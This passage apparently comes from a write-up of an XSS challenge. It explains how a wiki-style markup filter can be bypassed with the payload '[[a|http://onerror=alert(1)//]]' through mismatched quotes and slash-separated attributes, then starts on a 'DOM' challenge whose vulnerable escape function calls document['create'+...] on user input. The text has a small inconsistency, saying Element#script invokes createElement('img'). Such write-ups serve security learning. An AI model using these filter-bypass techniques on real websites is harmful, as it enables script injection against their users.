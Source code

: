 ### Solution

In this challenge, `<` and `"` will first be htmlencoded. Later on, `http://` will be replaced by an `<a>` tag. Finally, `[[|]]` will be replaced by an `<img>` tag.

Notice that if you put `http://` inside `[[|]]` (`[[a|http://]]`):

```htmlmixed
<img alt="<a href="http://" src="a.gif">">http://]]</a>
```

The double quotes become mismatched; the `alt` tag becomes `"<a href="`.
In addition, forward slashes `/`, similar to white spaces, can be used to *split attributes*. That is, any words after two `/` in `http://` will be treated as an *attribute*. That is to say, you can add arbitrary attributes to `<img>`.

As a result, you may build the payload like the following (31 bytes):

* **`[[a|http://onerror=alert(1)//]]`**

Output:

```javascript
<img alt="<a href="http://onerror=alert(1)//" src="a.gif">">http://onerror=alert(1)//]]</a>
```

Here, `onerror=alert(1)//` will be parsed and treated as an `onerror` attribute with the value `alert(1)//`.
In addition, The trailing `//` is used to comment out the residual double quote.

## DOM

### Problem

```javascript
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```

### Solution

First, the `escape` function splits your input with delimeter `#` and stores the result in `m`.
Next, it calls `document['create'+m[0]]` and subsequently invokes the `apply` function. The `apply` function calls `document['create'+m[0]]` and treat `document` as `this`, `slice(1)` as `arguments`.
For example, if your input is `Element#script`, `escape` will invoke `document.createElement('img')`:

```htmlembedded
<script></script>
```
